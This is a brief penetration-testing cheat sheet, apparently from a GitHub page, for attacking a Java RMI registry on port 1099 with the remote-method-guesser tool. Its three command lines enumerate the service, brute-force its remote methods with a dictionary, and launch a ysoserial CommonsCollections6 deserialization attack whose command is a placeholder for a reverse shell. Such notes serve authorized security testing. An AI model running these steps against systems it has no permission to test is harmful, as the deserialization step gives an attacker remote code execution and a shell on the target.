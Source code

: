 # RMI Registry Java Pentesting

## Tool: https://github.com/qtc-de/remote-method-guesser

### Port: 1099

## STEPS:

 - java -jar rmg-4.4.1-jar-with-dependencies.jar enum IP_ADDRESS 1099 (Enumerate RMI protocol)

 - java -jar rmg-4.4.1-jar-with-dependencies.jar guess IP_ADDRESS 1099 (Guess methods in the service via a dictionary attack)

 - java -jar rmg-4.4.1-jar-with-dependencies.jar serial IP_ADDRESS 1099 --yso /opt/ysoserial.jar --bound-name monitoring --signature 'String sendData(String dummy,Object dummy2)' CommonsCollections6 'COMMAND_HERE_TO_REVERSE_SHELL' (Conduct a serialization attack against the service)

